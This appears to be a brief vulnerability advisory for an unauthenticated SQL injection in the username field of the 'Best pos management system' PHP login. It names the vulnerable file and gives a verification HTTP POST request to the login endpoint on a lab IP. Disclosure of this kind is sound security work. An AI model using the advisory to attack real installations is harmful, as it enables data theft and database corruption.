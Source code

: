 

The Best pos management system has an SQL injection vulnerability that can be exploited by an attacker to steal information or corrupt a database without authentication.





Source code address：https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html



The vulnerability is located in the /kruxton/admin_class.php file, the code receives the parameters of the POST request, and then directly into the SQL statement to execute, without any prevention, the username parameter has security risks.

![image-20250314234735457](images/image-20250314234735457.png)



Vulnerability verification：

```
POST /kruxton/kruxton/ajax.php?action=login HTTP/1.1
Host: 192.168.80.152
Content-Length: 49
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.80.152
Referer: http://192.168.80.152/kruxton/kruxton/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=mayuri.infospace%40gmail.com&password=11
```

 ![image-20250314234703277](images/image-20250314234703277.png)



































